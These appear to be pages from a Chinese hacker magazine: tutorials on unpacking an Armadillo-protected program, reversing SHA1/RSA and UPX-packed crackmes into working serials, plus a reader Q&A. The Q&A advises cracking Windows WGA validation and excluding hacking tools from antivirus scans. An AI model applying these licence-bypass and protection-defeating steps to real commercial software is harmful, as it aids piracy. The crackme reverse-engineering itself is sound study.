返回后可以看到 kernel32.LoadLibraryA，这里也可能是一个返回正确的判断标志吧，不过不知道准不准确哦，不准确的话，大家别扔鸡蛋过来哦。下面 00B95D12 处的 je，应该就是高手们常说的 Magic Jump 了，于是我把 je 修改为 jmp，避开 IAT 加密后，下面就应该找 OEP 了，下断点：bp CreateThread，当然，你可以使用 bp GetCurrentThreadId，结果都一样的，运行后中断在下面：

```
00B31A7C    F62D AA0D4E34    imul byte ptr ds:[344E0DAA]
00B31A82    F3:              prefix rep:
00B31A83    8E32             mov seg?,word ptr ds:[edx]
00B31A85    16               push ss
00B31A86    AB               stos dword ptr es:[edi]
00B31A87    213B             and dword ptr ds:[ebx],edi
00B31A89    89D9             mov ecx,ebx
00B31A8B    E5 E7            in eax,0E7
00B31A8D    0181 8E1B889C    add dword ptr ds:[ecx+9C881B8E],eax
```

一大片红色的海洋啊，多壮观啊……（喂喂喂，继续啊，再不继续就拿板凳伺候了），结果很明显是失败了，于是我以为自己找的 Magic Jump 不对，结果我又连续地反复地试了好久，结果发现 Magic Jump 是正确的，但是想了很久都没搞清楚是怎么回事。

事，最后又看了几次，又再把以前的经验全部回顾了一下，想到了 Armadillo 壳的版本问题和单双进程问题，结果试了一下发现竟然成功了。

# 成功过程

重新载入目标程序，虽然检测到的是单进程，但是可以使用脱双进程的方法试试，运行双进程转单进程的脚本（脚本已打包），脚本结束后来到下面代码处：

```
7C80EC1B k> 8BFF           mov edi,edi    /// 脚本结束后来到这里
7C80EC1D     55             push ebp
7C80EC1E     8BEC           mov ebp,esp
```

再下断点：bp GetModuleHandleA 到 Magic Jump 处，再次将 00B35D12 处的 je 改为 jmp，F8 下去，将会跳到下面代码处：

```
00B35E47     83C7 0C        add edi,0C
00B35E4A     89BD 78FDFFFF  mov dword ptr ss:[ebp-288],edi
00B35E50     83C6 04        add esi,4
00B35E53     395F FC        cmp dword ptr ds:[edi-4],ebx
00B35E56   ^ 0F85 49FEFFFF  jnz 00B35CA5
00B35E5C     EB 03          jmp short 00B35E61
00B35E5E     D6             salc
00B35E5F     D6             salc
00B35E60     8F             ???
```

因为 Armadillo 壳的版本问题，在 00B35E5C 处下一个普通断点，运行后将会中断下来，顺着代码往前找，一直找到原来的 Magic Jump 处，将原来的修改撤消，继续下断点：bp CreateThread，这次可以发现中断下来了：

```
7C81082F k> 8BFF           mov edi,edi    ; 中断在这里
7C810831     55             push ebp
7C810832     8BEC           mov ebp,esp
```

中断后可以返回了，返回后一直 F8 下去，直到看见如下代码就可以停止了：

```
00B4F6DC    /75 1B         jnz short 00B4F6F9    /// 这里有一个 jnz，而且会跳
00B4F6DE    |FF77 18       push dword ptr ds:[edi+18]
00B4F6E1    |FF77 14       push dword ptr ds:[edi+14]
00B4F6E4    |FF77 10       push dword ptr ds:[edi+10]
00B4F6E7    |8B90 90000000 mov edx,dword ptr ds:[eax+90]
00B4F6ED    |3350 40       xor edx,dword ptr ds:[eax+40]
00B4F6F0    |3350 04       xor edx,dword ptr ds:[eax+4]
00B4F6F3    |2BCA          sub ecx,edx
00B4F6F5    |FFD1          call ecx
00B4F6F7    |EB 20         jmp short 00B4F719
00B4F6F9    \83FA 01       cmp edx,1      /// 将会跳到这里
00B4F6FC     75 1E         jnz short 00B4F71C    /// 这里不能跳的，跳就连 OEP 也没了
00B4F6FE     FF77 04       push dword ptr ds:[edi+4]
00B4F701     FF77 08       push dword ptr ds:[edi+8]
00B4F704     6A 00         push 0
00B4F706     FF77 0C       push dword ptr ds:[edi+0C]
00B4F709     8B90 90000000 mov edx,dword ptr ds:[eax+90]
00B4F70F     3350 40       xor edx,dword ptr ds:[eax+40]
00B4F712     3350 04       xor edx,dword ptr ds:[eax+4]
00B4F715     2BCA          sub ecx,edx
00B4F717     FFD1          call ecx      /// F7 进去就是 OEP 了
00B4F719     8945 E4       mov dword ptr ss:[ebp-1C],eax
```

上面的代码很容易认识的，所以到了这里之后，可以直接 F4 到 00B4F717 处的，跟进去后：

```
0100739D     6A 70          push 70        ; OEP,Dump
0100739F     68 98180001    push notepad.01001898
010073A4     E8 BF010000    call notepad.01007568
010073A9     33DB           xor ebx,ebx
```

发现是真的 OEP 了，还等什么？马上抄出 LordPE v1.4 将其 Dump 下来，再拿出 ImportREC v1.6 Final，填入正确的 OEP，再获取输入表，如图 4。

```
jmp short 00B35E61
salc
salc


```

发现有 9 个函数不能识别，不过这些已经无所谓，将其全部 Cut 掉吧，再修复 Dump 下来的程序，试运行一下，发现终于运行了，于是就把脱壳后的程序给朋友发过去了。

# 后记

真是一波三折啊，虽然是那么的简单，其实我也基本花了一个下午的时间啊，这个我觉得就是单进程中的一个特例，和我以往遇到的单进程都有点不同，这个要比以前遇上的麻烦了一点点，就是要先行双进程转单进程脚本，然后再在形如：

的地方下断点，再撤消原来的修改后的魔法跳。文章到这里就结束了，如果你还有更好的方法或者学习过程中的问题的话，都欢迎你到《黑客手册》的官方论坛发表你的意见。

> 【本文介绍的目标程序和相关工具已收录在本期光盘中】

编辑点评：Armadillo 壳，曾经让无数人望而生畏的猛虎，如今也变得和压缩壳差不多啦！本文作者详细介绍了单进程的脱壳过程，这是一个最简单的保护模式，对于脱 Armadillo 壳来说，这仅仅是个开始，如果把这篇文章和 07 年 01 期的《驯服大鳄鱼 Armadillo》结合起来，或许你会对 Armadillo 壳有更深的认识。

# 一个密码学算法的 Crackme

## 从本文中你可以学到：

- 经典密码学 SHA1 和 RSA 的分析

这次写一篇关于软件运用了经典密码学算法的分析的文章。希望能给初学者带来进步。首先这个程序是 happytown 的第 14 个 crackme，在看雪已经有人写了注册机，不过分析过程没有写，可能对初学者来说不太好看懂，我这里就做一次详细的分析吧。

首先运行下这个程序，随便填写一个用户名：kyo327 和密码：1234567，点击注册，没有任何提示。接着用 PEID 加载，如图 1。

从图 1 可以看到该程序没有加壳，编程语言采用的是 VC++，用 PEID 的插件 KANAL 分析出其所采用的密码学算法有 SHA1 和 RSA，这样我们心里至少有个底。准备工作做完后，用 OD 加载，用万能断点下断，程序断在 004011E8 处。先粗略地用 F8 走一遍，发现一直走到了 0040108A 处，跳转实现了，跳向了失败，这说明只要上面的 eax 不等于 0 就能注册成功。再看这里 004013D0 这一段，程序是走到 004013E5 经过了 RETN 后才到了 00401087 test eax, eax 的。上面有个字符串比较函数，我们知道如果两个字符串相等，返回值 eax=0，否则返回非 0 值。在经过了 neg eax, sbb eax, eax inc eax 后，只有当 eax=0 才能通过验证。因此只要上面两个字符串相等就可以注册成功，现在看来就只有这一处验证。当然如果把 0040108A 处的 Je 0040111D 改为 jne 0040111D 就可以暴破了它。不过我们还是以分析算法为主。现在回到刚开始，一步步 F8 来到 0040121C 处，可以看到从 0040121C 到 00401260 之间，是用输入的密码的长度做一个循环，来验证密码必须为 0-9、a-f、A-F 之间的字符，否则会跳向失败。我最开始输入的 1234567 算是混过去了，呵呵。接着看下面有一个 call，右键点跟随，发现代码有 5 个常数，这 5 个常数的赋值分别是 67452301h、EFCDAB89h、98BADCFEh、10325476h、C3D2E1F0h。这个是 SHA1 密码加密的标志，这里估计是 SHA1 的初始化。先不管，F8 过去，一直走到 004012B0，经过了 call 00404060 后，dd esp+1A0 可以看到一串字符，根据上面代码我们知道这是对用户名 kyo327 做了 SHA1 的加密。我现在通过 zobox 这个工具验证一下看看是否正确。如图 2。

可以看到 kyo327 通过 SHA1 加密后是 D81E2A1A72F5A4F54F570B0F05BAAA0CFFC5D2D6820，刚好和上面的字符串一样。那么可以肯定我们的猜想是正确的。接下来继续 F8 来到 004012B2，从 004012B2 到 0040131C 这段代码作用是把上面用 SHA1 加密的字符转换为 16 进制，送到 [esi]，也就是 ss:[esp+268] 处。然后下面一句 mov byte ptr ss:[esp+278], 0 这句代码用 0 刚好把转换成 16 进制的密文从中间截断了。那么此时 ss:[esp+268] 对应的字符串就变成了 D81E2A1A72F5A4F5，对应的 16 进制就是：44 38 31 45 32 41 31 41 37 32 46 35 41 34 46 35。也就是提取了加密后的前 8 位字符。至此 SHA1 的加密已经结束。现在看下面的代码。下面是 RSA 的加密。对于 RSA，我先在这里说点基础知识，磨刀不误砍柴工嘛。RSA 的整个算法可以描述如下：
- (1) 选取两个大素数 p 和 q（保密）；
- (2) 计算 n = p * q（公开），r = (p-1)(q-1)（保密）；
- (3) 随机选取整数 e（公开，加密密钥），使得 gcd(e, r)=1；
- (4) 计算 d（保密，私人密钥），使得 ed ≡ 1 (mod r)，即 d = e^-1 (mod r)；
- (5) 加密：c = m^e mod n；
- (6) 解密：m = c^d mod n。

用 RSA 因为要用到大数的计算，所以它必须要引用 miracl 库的函数。

而针对 RSA 需要用到这几个函数：

mirvar(iv), cinstr(x, s), powmod(x, y, z, w), big_to_bytes(max, x, ptr, justify), mirkill(x)

mirvar(iv) 的作用是初始化一个变量。它只有一个参数。例：x = mirvar(0); 这样就创建了一个变量 x=0。cinstr(x, s) 的作用是字符串 s 所对应的整数赋值给大整数 x。有两个参数。powmod(x, y, z, w) 作用是 w = x^y mod z。big_to_bytes(max, x, ptr, justify) 将一个大整数转换成一个字节串（ptr 指向那个字节串）。

mirkill(x) 的作用是消灭一个大整数并清空内存，现在这几个函数作用都已经清楚了。可是在分析反汇编的代码时如何定位这些函数呢？当然 ida 是可以的，不过有些时候也定位不出来。有一个高人给出了手工定位的方法。我现在拿出来给大家分享。废话就不多说了，只讲主要的：“无论你用何种选项编译 MIRACL，mov dword ptr [esi+eax*4+20h],xxh，这句代码都会出现在反编译的程序里。而我们就可以根据 xxh，再来查表来定位 MIRACL 函数了。”现在我给出上面这 4 个函数的 xxh：mirvar equ 17h, cinstr equ 4eh, powmod equ 12h, big_to_bytes equ 8dh。

现在准备工作做完了，继续分析代码吧。往下看发现，call 00401890 连续用了 4 次，并且只有一个参数，参数数值每次也都是 0，这样我们就不得不怀疑是 mirvar(iv) 函数，不过还是跟随进去看看。如图 3。

```assembly
00401890  A1 DC054100  MOV EAX,DWORD PTR DS:[4105DC]
00401895  56           PUSH ESI
00401896  8B30         MOV ESI,DWORD PTR DS:[EAX]
00401898  8B80 2C020000 MOV EAX,DWORD PTR DS:[EAX+22C]
0040189E  85C9         TEST ECX,ECX
004018A0  74 04        JE SHORT CrackMe_.004018A6
004018A2  33C0         XOR EAX,EAX
004018A4  5E           POP ESI
004018A5  C3           RETN
004018A6  8B7C 1C 1C   MOV EDI,DWORD PTR DS:[EAX+1C]
004018AA  46           INC ESI
004018AB  8970 1C      MOV DWORD PTR DS:[EAX+1C],ESI
004018AE  A1 DC054100  MOV EAX,DWORD PTR DS:[4105DC]
004018B3  8B80 1C020000 MOV EAX,DWORD PTR DS:[EAX+21C]
004018B9  8BF3         MOV ESI,EBX
... (省略)
```

果然，代码中有一句，mov dword ptr ds:[eax+ecx*4+20], 17h。这样就可以对上号了，也可以确定是 mirvar 函数了。那么下面几句代码作用就是初始化四个变量，并都赋值为 0。四个变量分别是 esi、ebp、edi、ebx。然后看下面，如图 4。

```assembly
00401352  8D8424 E8000000  LEA EAX,DWORD PTR SS:[ESP+E8]
00401359  50               PUSH EAX
0040135A  57               PUSH EDI
0040135B  E8 50270000      CALL CrackMe_.00403AB0       cinstr(x, s)
00401360  68 DC0D4100      PUSH CrackMe_.00410DDC       ASCII "6199855658D504EBC98DF20A2F170CD1"
00401365  56               PUSH ESI
00401366  E8 45270000      CALL CrackMe_.00403AB0       cinstr(x, s)
0040136B  68 D40D4100      PUSH CrackMe_.00410DD4       ASCII "10001"
00401370  55               PUSH EBP
00401371  E8 3A270000      CALL CrackMe_.00403AB0       cinstr(x, s)
00401376  56               PUSH ESI
00401377  57               PUSH EDI
00401378  E8 13140000      CALL CrackMe_.00402790
0040137D  83C4 30          ADD ESP, 30
00401380  83F8 FF          CMP EAX, -1
00401383  75 61            JNZ SHORT CrackMe_.004013E6
00401385  53               PUSH EBX
00401386  55               PUSH EBP
00401387  56               PUSH ESI
00401388  57               PUSH EDI
00401389  E8 F2200000      CALL CrackMe_.00403480       powmod(x, y, z, w)
... (省略)
```

通过上面的方法，可以依次定位出，call 00403AB0 为 cinstr 函数，call 00403480 为 powmod 函数，call 00403230 为 big_to_bytes 函数，call 00402260 为 mirkill 函数。

首先第一个 0040135B 处的 cinstr 函数把输入的密码 1234567（字符串）转化为一个大整数送到 edi 里面。注意这里看返回结果应该是 dd edi+0C。因为这是存放一个大数的原因，其中 edi、edi+4、edi+8 可能是三个参数。我猜测字符串带有 8 位则 edi=1，字符串有 16 位则 edi=2，以此类推，而 edi+4 代表指向那个大整数的指针。edi+8 可能是保留参数。接下来把字符串 6199855658D504EBC98DF20A2F170CD1 = n 和 10001 = e 转化为大整数。下面 call 00402790，这个 call 的作用是必须使我输入的密码 1234567 小于 6199855658D504EBC98DF20A2F170CD1 的大小，否则就跳向失败，当然这也是为了符合 RSA 算法的需要。紧接着就是 powmod(x, y, z, w) 和 big_to_bytes(max, x, ptr, justify)。那么 ecx 就是加密后的密文。可以这样表达，[ecx] = 1234567^10001 mod 6199855658D504EBC98DF20A2F170CD1。F8 到 004013A0 处时，通过 dd ecx 可以得到字符串为：52DC2CDBA03C0D132194F08AB76ED78D。下面就是收尾工作了。连续用 4 次 mirkill 函数，清空变量。最后有一个字符串比较函数。如图 5。

可以从抓图看到，是比较 ss:[esp+330] 与 ss:[esp+268] 这两个值的。我们知道 ss:[esp+268] 是开始分析的 SHA1 加密用户名后取密文的前 8 位 D81E2A1A72F5A4F5，这是不变的。因为 D81E2A1A72F5A4F5 此时是 16 个字节，转化为 16 进制为 44383145324131413732463541344635。

所以只要 RSA 加密密码后等于 44383145324131413732463541344635 就 OK 了。现在一切都很明了。现在只需解密 44383145324131413732463541344635 就可以得到注册码了。由上面解密公式 m = c^d mod n 得知，m = 44383145324131413732463541344635^d mod 6199855658D504EBC98DF20A2F170CD1，现在未知数只有 d。现在，拿出工具 RSA-TOOL 来算 N。如图 6。

可以得到 d 为 64A5ECDB1EC08E51537F4F96B221A1。现在再用工具 RASKIT 解密，如图 7。

现在解出来密码是 2EFC8735EDD33B306FAEA3485C6CD0B1。好了，马上测试一下看是否能注册成功。如图 8。

通过上图来看我们是通过注册了。知道了算法，写注册机也很简单。因为现在网上 sha1、rsa 的代码满天飞，随便下载一个然后结合起来就很容易写出注册机了。我向来比较懒，这个工作还是留给大家做吧 :)

来到这里就可以结束了，不过我还想啰嗦几句。我先声明，本文高手和中手都可以飘过，省得说我写文章啰里啰唆的像个老太婆，也许你们认为很简单，可是请你们给新手一个学习的机会，希望我这篇文章能给刚开始玩破解的新手们带来帮助，这样的我的目的就达到了。在此也感谢《黑客手册》能给这么一个好的平台让我和广大朋友一起交流学习。

> 【本文介绍的目标程序和相关工具已收录在本期光盘中】

**编辑点评：** 密码学算法有很多种，但如果全部使用标准的话，那么解密也会变得简单起来，因为很多源码和各种密码学工具到处飞，使得解密密码学算法，不再是只有高手才可以做到的，我们菜鸟也可以，关键的就是你能识别密码学算法的各种特征。

# 再战被隐藏的 ASCII 字符串

- 从本文中你可以学到：
  1、如何找出被隐藏的字符串
  2、程序的算法分析

记得前几期写过一篇《揪出被易语言隐藏的字符串》，不知道大家学习得如何了？如果还没学习完的话，那么就得快马加鞭一些，因为这一次我给大家带来新的学习问题，如果不跟上的话，那么就会落下很多功课啦，功课越积越多，再来学习，压力会大一点哦，废话也不再多说了，大家快点坐好，一起来再战被隐藏的 ASCII 字符串。

这次的目标是 xIkUg 大哥编写的 Crackme，使用强力壳探器 Peid 查得为 Microsoft

Visual C++ 编写，EP 块显示着 xIkUg 大哥的 ID，难道加了壳吗？先不管了，运行程序乱注册一下，发现有注册提示框，如图 1。

既然注册有错误提示，那么就使用 OD 载入进去搜索一下，载入后，使用字符串插件搜索，竟然是一无所获，结果如图 2。

再回去看看载入后的代码停留处：

```assembly
0046F000 C> 55              push ebp          ; (Initial CPU selection)  /// 载入后停在这里
0046F001    8BEC            mov ebp, esp
0046F003    6A FF           push -1
0046F005    68 2A2C0A00     push 0A2C2A
0046F00A    68 38900D00     push 0D9038
0046F00F    64:A1 00000000  mov eax, dword ptr fs:[0]
0046F015    50              push eax
0046F016    64:8925 000000> mov dword ptr fs:[0], esp
0046F01D    58              pop eax
0046F01E    64:A3 00000000  mov dword ptr fs:[0], eax
0046F024    58              pop eax          ; /// 这行开始下面都觉得不像 VC++ 程序
0046F025    58              pop eax
0046F026    58              pop eax
0046F027    58              pop eax
0046F028    8BE8            mov ebp, eax
0046F02A    B8 10C34600     mov eax, CrackMe.0046C310 ; ASCII "!"
0046F02F    FFE0            jmp eax          ; /// 这里跳走
```

这里的代码怎么看都觉得不太像 VC++ 程序啦，于是走到 0046F02F 看跳去哪里：

```assembly
0046C310    60              pushad          ; (Initial CPU selection)  /// 跳到这里
0046C311    BE 00504400     mov esi, CrackMe.00445000       ; D
0046C316    8DBE 00C0FBFF   lea edi, dword ptr ds:[esi+FFFBC000]
0046C31C    C787 9C400500 > mov dword ptr ds:[edi+5409C], D0243099
0046C326    57              push edi
0046C327    83CD FF         or ebp, FFFFFFFF
0046C32A    EB 0E           jmp short CrackMe.0046C33A
```

来到这里的时候，习惯性地将它运行起来，再搜索看看，发现竟然可以搜索出来了，结果如图 3。

好了，注册提示摆出来了，到了这里我打算先讲算法，后面再分析，再来看看为何字符串被隐藏了，既然程序不太像 VC++，那么真正的编写语言是用了什么呢？难道程序真的像前面所说的加了壳吗？带着这些疑问，我们一起来再详细分析一下。

重新装载目标程序，F4 到第一个 jmp 那里，跳到：

```assembly
0046C310    60              pushad          ; (Initial CPU selection)
/// 跳到这里
0046C311    BE 00504400     mov esi, CrackMe.00445000       ; D
0046C316    8DBE 00C0FBFF   lea edi, dword ptr ds:[esi+FFFBC000]
0046C31C    C787 9C400500 > mov dword ptr ds:[edi+5409C], D0243099
0046C326    57              push edi
0046C327    83CD FF         or ebp, FFFFFFFF
0046C32A    EB 0E           jmp short CrackMe.0046C33A
```

看看前面几行代码，感觉有点像 UPX 的壳，于是在这里将其 Dump 下来看看，这里随便 Dump 下就可以了，因为只是想查一下壳，不需要运行它，结果如图 4。

结果和猜的差不多，果然是用了 UPX 的壳，这里还不是程序自身的入口点，所以我们还得继续，将鼠标往下回滚滚，可见：

```assembly
0046C472   ^EB E1           jmp short CrackMe.0046C455
0046C474     FF96 28D40B00  call dword ptr ds:[esi+6D428]
0046C47A     61              popad
0046C47B   ^E9 BC85FEFF     jmp CrackMe.00454A3C  ; /// 准备跳向 OEP
0046C480     98              cwde
0046C481     C446 00         les eax, fword ptr ds:[esi]
0046C484     A8 C4           test al, 0C4
0046C486     46              inc esi
0046C487     009C50 4500000> add byte ptr ds:[eax+edx*2+45], bl
```

0046C47B 处的 jmp 好像是跳向 OEP 了，连忙在该处下断点，中断后，F8 一下，果然到了程序自身的入口点：

```assembly
00454A3C    55              push ebp
OEP, 程序自身的入口点
00454A3D    8BEC            mov ebp, esp
00454A3F    83C4 F0         add esp, -10
00454A42    B8 544B4500     mov eax, CrackMe.00454854
; <
00454A47    E8 5014FBFF     call CrackMe.00405E9C
```

Dump 下后修复，再使用 PEID 检测，发现还是看见 UPX 的壳，估计哪里出了问题，不管了，看看入口处的代码，发现有点像 Borland Delphi 语言，再拿出 DeDe3.50.04 Fix 超强版载入看一下，发现可以识别是 Borland Delphi 6.0，因为如果不是 Borland Delphi 语言，DeDe 是不能够识别出来的。

好了，看到这里已经很明显了，在第一层，使用了伪装代码，将程序伪装成了 Microsoft Visual C++ 语言，还将字符串给隐过去了，到了第二层使用了 UPX 的壳，将程序的真正编写语言也隐起来了，那么前面的疑团到这里也解开了。搞了这么久总不能不干点什么就完事吧？那么就太对不起刚才的努力了，既然刚才已经将程序载入 DEDE 了，那么就使用 DEDE 来找到“注册”按钮事件吧，结果如图 5。

Button1Click 就是注册按钮的事件了，双击它，找个适当的地方下断点吧：

```assembly
004545BA    E8 59FBFAFF    call CrackMe.00404118
; 获得用户名长度
004545BF    83F8 08        cmp eax,8                ; 与 8 比较
004545C2    7D 16          jge short CrackMe.004545DA
; 小于就 OVER
004545C4    B9 50474500    mov ecx,CrackMe.00454750
; 用户名不能小于 8 位!
004545C9    B2 01          mov dl,1
004545CB    A1 746F4000    mov eax,dword ptr ds:[406F74]
004545D0    E8 3B6FFBFF    call CrackMe.0040B510
004545D5    E8 BAF2FAFF    call CrackMe.00403894
004545DA    8B45 F8        mov eax,dword ptr ss:[ebp-8]
004545DD    E8 36FBFAFF    call CrackMe.00404118
; 获得注册码长度
004545E2    83F8 08        cmp eax,8                ; 与 8 比较
004545E5    7D 16          jge short CrackMe.004545FD
; 小于就 OVER
004545E7    B9 6C474500    mov ecx,CrackMe.0045476C
; 注册码不能小于 8 位!
004545EC    B2 01          mov dl,1
004545EE    A1 746F4000    mov eax,dword ptr ds:[406F74]
004545F3    E8 186FFBFF    call CrackMe.0040B510
004545F8    E8 97F2FAFF    call CrackMe.00403894
004545FD    8B45 F8        mov eax,dword ptr ss:[ebp-8]
00454600    E8 13FBFAFF    call CrackMe.00404118
; 获得注册码长度
00454605    83F8 12          cmp eax,12               ; 与 12h 比较
00454608    7E 16            jle short CrackMe.00454620 ; 大于就 OVER
0045460A    B9 88474500      mov ecx,CrackMe.00454788
; 注册码不能大于 18 位!
0045460F    B2 01            mov dl,1
00454611    A1 746F4000      mov eax,dword ptr ds:[406F74]
00454616    E8 F56EFBFF      call CrackMe.0040B510
0045461B    E8 74F2FAFF      call CrackMe.00403894
00454620    33C0             xor eax,eax
00454622    55               push ebp
00454623    68 46464500      push CrackMe.00454646
00454628    64:FF30          push dword ptr fs:[eax]
0045462B    64:8920          mov dword ptr fs:[eax],esp
0045462E    8B45 F8          mov eax,dword ptr ss:[ebp-8]
00454631    E8 CE3AFBFF      call CrackMe.0040B104
00454636    8945 F0          mov dword ptr ss:[ebp-10],eax
; eax 保存注册码
00454639    8955 F4          mov dword ptr ss:[ebp-C],edx
0045463C    33C0             xor eax,eax
0045463E    5A               pop edx
0045463F    59               pop ecx
00454640    59               pop ecx
00454641    64:8910          mov dword ptr fs:[eax],edx
00454644    EB 20            jmp short CrackMe.00454666
00454646    E9 5DEFFAFF      jmp CrackMe.004035A8
0045464B    B9 A4474500      mov ecx,CrackMe.004547A4
; 注册码应为 0-9 之间的字符组成!
00454650    B2 01            mov dl,1
```

这里都是一些信息判断，如注册码不能小于 8 位！，注册码不能大于 18 位！，注册码应为 0-9 之间的字符组成！到了下面就算法开始：

```assembly
004546BC    52             push edx
004546BD    8B00           mov eax,dword ptr ds:[eax]
004546BF    FF50 0C        call dword ptr ds:[eax+C]
; 算法 call
```

跟进此处的 call 看看：

```assembly
00454225    8B4D 10        mov ecx,dword ptr ss:[ebp+10]
00454228    0FB64C11 FF    movzx ecx,byte ptr ds:[ecx+edx-1]
; 依次取用户名 ASCII 值
0045422D    C1E3 02        shl ebx,2               ; ebx 左移 2 位
00454230    03CB           add ecx,ebx             ; 累加
00454232    8BD9           mov ebx,ecx             ; 结果保存到 ebx
00454234    42             inc edx
00454235    48             dec eax
00454236    ^ 75 ED        jnz short CrackMe.00454225
00454238    035D 14        add ebx,dword ptr ss:[ebp+14]
; ebx + 注册码
0045423B    8BC3           mov eax,ebx             ; eax 保存最后结果
```

很明显这里处理用户名的运算，结果加上注册码，得到一个值，运算完后，跳出来继续分析：

```assembly
004546C6    6A 00          push 0
004546C8    68 0066AAFF    push FFAA6600    /// 将 FFAA6600 压栈
004546CD    8D55 E4        lea edx,dword ptr ss:[ebp-1C]
004546D0    B8 02000000    mov eax,2
004546D5    E8 8B39FBFF    call CrackMe.00408060
004546DA    8B55 E4        mov edx,dword ptr ss:[ebp-1C]
004546DD    58             pop eax
004546DE    E8 81FBFAFF    call CrackMe.00404264
; 运算结果与 FFAA6600 比较
004546E3    75 17          jnz short CrackMe.004546FC    ; 爆破点
004546E5    6A 00          push 0
004546E7    66:8B0D D84745>mov cx,word ptr ds:[4547D8]
004546EE    B2 02          mov dl,2
004546F0    B8 E4474500    mov eax,CrackMe.004547E4
; 恭喜!注册成功!
004546F5    E8 922EFDFF    call CrackMe.0042758C
```

将算法处理得到的值与 FFAA6600 比较，相等则注册成功，否则注册失败。分析到这里，程序的注册流程很明显了，简单小结一下吧：ebx 初始为 0，第二次计算为用户名累加后左移 2 位后再继续累加，得到的结果与注册码相加，最后拿这个值去与 FFAA6600 比较，相等就注册成功了。通过简单的计算获得一组注册信息：

用户名：December

注册码：4287693210

马上拿去试一下，结果如图 6。

好了，被隐藏的字符串又出来了，注册流程分析也很详细了，是不是有点心动呢？心动不如行动吧，抄起你们收藏好的家伙，把这个目标程序“砍”得“体无完肤”吧！今天又是一次对被隐藏的字符串的练习，文章就写到这里，如果你在学习过程中有疑问或者建议的话，欢迎你到《黑客手册》的官方论坛发表你的任何意见。下一次，另一场战争又将会打响……

> 【本文介绍的目标程序和相关工具已收录在本期光盘中】

**编辑点评：**很多时候，作者为了保护自己的软件尽可能地不被破解，会采取各种手段来反破解，隐藏字符串不过是其中之一，因为 Cracker 很喜欢首先就会去搜索字符串，如果搜不到才会另想它法，隐藏字符串对刚入门的新手来说，是一个障碍，所以希望本文能给大家带来快乐的一课。

# 近期系统盗版提示与 WGA

**Q：近期我的系统总是出现盗版提示，到网上下载了 Windows 离线正版认证程序和修改了序列号都不行，请问有什么方法？**

**A：** 这是因为你的系统安装了 WGA（Microsoft Genuine Advantage）补丁，该补丁会自动验证用户的系统是否为正版用户，具备与微软同步更新判断功能，并且该补丁不提供卸载功能。很多朋友一般在自动更新时毫无顾及地安装，导致频繁出现盗版提示。朋友们可以在网上搜索 “RemoveWGA”，或者是 “微软正版验证（WGA）破解补丁”，这样就可以清除或者禁用 WGA 验证，同时建议用户使用 “微软正版认证离线包”，或者是通过 “WindowsXP 序列号更改器” 来修改本地序列号来安装 IE7.0 和 MediaPlayer11。

**Q：我的系统无法打开一些重要程序，例如注册表和 MSCONFIG，而且还不能使用杀毒软件和安装杀毒软件，就连冰刃都不行，为什么？**

**A：** 产生这种情况的原因有几种，首先可能是系统感染了病毒，该病毒可以通过自身进程对自身列举的“黑名单”进行排斥，从而达到无法打开一些重要系统管理程序或者安全工具的目的。但是很多朋友说他们通过一些自身手段清理掉了可能存在的病毒，却还是无法打开一些重要程序，这是因为现在某些流行病毒采用了 Image File Execution Options（IFEO in short）劫持，即使删除了病毒本体，还是可以通过注册表建立的项目来达到一些屏蔽目的。

解决的方法是：

打开注册表（无法打开注册表的朋友可以把注册表更名：先到系统目录下，比如 `C:\WINDOWS` 目录下，将 `regedit.exe` 改为 `regedit1.exe`，注意一下，修改扩展名是无效的。）找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项目，可以发现这里列举了非常多的系统管理程序，有杀毒软件和安全工具等，包括有 `nod32`，`icesword` 等，如果觉得一项一项地删除比较麻烦，建议直接删除该项，这样就可以安装和运行我们必须的程序了。

**Q：我系统的 system 进程在 CPU 运行一段时间后总是达到接近 100%，在网上查询了很多，给出的都是系统中毒原因，可是我的系统重装了 n 次，也换了多个不同的版本却不起任何作用，我快急得发疯了，求解决方法。**

**A：** 如果重新安装系统后却出现该问题，非常有可能是硬件兼容性故障，一般来说可能是 CPU 散热性不够，主板和网卡兼容性不好，内存不兼容等。我们可以通过软件方法来判断，通过 Process Explorer 这个超级进程管理工具打开 system，然后查找该进程线程中的 `acpi.sys`，一般不兼容会导致这个电源管理接口程序故障。通过 Process Explorer 将该线程暂停后就基本可以解决了，但这是一个治标不治本的方法，如果你新安装了某硬件后发现此问题，那么可以通过更换或者是刷新主板 BIOS 来达到更好的兼容效果。

**Q：按照杂志和许多读者的提议，我安装了 NOD32 杀毒软件，可是该软件频繁查杀我的黑客工具，有什么好的方法可以解决这个问题吗？很多朋友给出的提议是暂时禁用 NOD32 的文件监控，这样好吗？**

**A：** 关闭掉 NOD32 的文件监控很容易感染病毒，因为某些黑客工具自身就捆绑了后门。其实 NOD32 也提供了文件监视排除功能，我们打开“NOD32 控制中心”，双击模块下的文件，找到“设置”选项。找到横栏菜单中的“排除”，点“添加”后选择你黑客工具所在的文件夹（最好是把黑客工具放在同一目录，然后再列分目录），“添加到列表”项选择永久，“排除对象”为文件夹，注意勾选上“排除子文件夹”。“确定”后就可以放心地使用这些黑客工具了，因为该排除只作用在我们设定的目录，即便捆绑了后门也会释放到 Windows 的某些目录，所以大家可以放心设置。

**Q：现在通过 DOMAIN 和 啊D 等工具的旁注功能查询服务器上的其他域名，总是找错目标，害我经常做无用功。那么有没有好的 whois 查询呢？**

**A：** 这些工具都是根据 domaintools 来查询域名绑定信息的；查询量非常小且数据可能过时，给你提供一个比较好的查询网站 `http://www.seologs.com/ip-domains.html`，该网站查询方便，信息准确，保证再也不会让你白费工夫了。

**Q：经常在偶偶视频网和土豆网看到比较好的视频文件，可是通过资源代码、抓包等方法不能找到该视频文件，有些东西真的很吸引我，能透露点技巧吗？**

**A：** 有一个比较好的方法，就是通过临时文件来查找目标，首先在 INTERNET 选项中删除所有脱机内容，然后打开你的视频文件地址。待视频播放完毕后在 `C:\Documents and Settings\USER\Local Settings\Temporary Internet Files`

（这里的 USER 是你当前登录的用户名）下搜索 `*.flv` 文件，这实际上就是你观看完毕的视频文件，该格式是现在大多数视频网站共用的一种压缩的 Flash 文件。如果该文件受限可以通过右键查看属性后，根据提供的流媒体地址来进行下载，注意不要用迅雷等工具下载，直接用 IE 自带的工具下载就 OK 了。或者你可以使用“临时文件双剑客”这款工具达到更好的批量搜寻的效果，读者朋友就自行测试吧。

